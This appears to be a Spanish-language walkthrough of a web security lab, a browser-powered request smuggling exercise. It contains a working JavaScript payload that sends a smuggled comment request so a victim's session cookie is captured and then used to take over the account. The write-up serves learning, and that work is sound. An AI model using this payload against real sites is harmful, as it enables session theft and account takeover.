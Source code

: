 En esta última parte, empaquetamos todo el ataque dentro de un payload JavaScript alojado en el servidor de explotación. El script desencadena una petición maliciosa con una petición fragmentada dentro del cuerpo, seguida de una solicitud controlada a /capture-me.

Una vez entregado a la víctima, su navegador ejecuta el código y realiza las peticiones necesarias que provocan la filtración de su cookie de sesión en el área pública del sitio. Extraemos esta información y usamos la cookie robada para acceder a su cuenta y resolver el laboratorio con éxito.

Solucion

el script bueno es este 
(<script>
  var smuggledRequest = [
    "POST /en/post/comment HTTP/1.1",
    "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
    "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
    "Content-Type: application/x-www-form-urlencoded",
    "Content-Length: 900",
    "",
    "csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&comment=smuggled"
  ].join("\r\n");

  fetch("https://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
    method: "POST",
    body: smuggledRequest,
    mode: "no-cors",
    credentials: "include"
  });
</script>)
![Pasted_image_20250812221322.png](/Imagenes/Pasted_image_20250812221322.png)
Aqui lo vemos reflejado
![Pasted_image_20250812221356.png](/Imagenes/Pasted_image_20250812221356.png)
copiamos y pegamos en almacenamiento
![Pasted_image_20250812221507.png](/Imagenes/Pasted_image_20250812221507.png)
![Pasted_image_20250812221531.png](/Imagenes/Pasted_image_20250812221531.png)
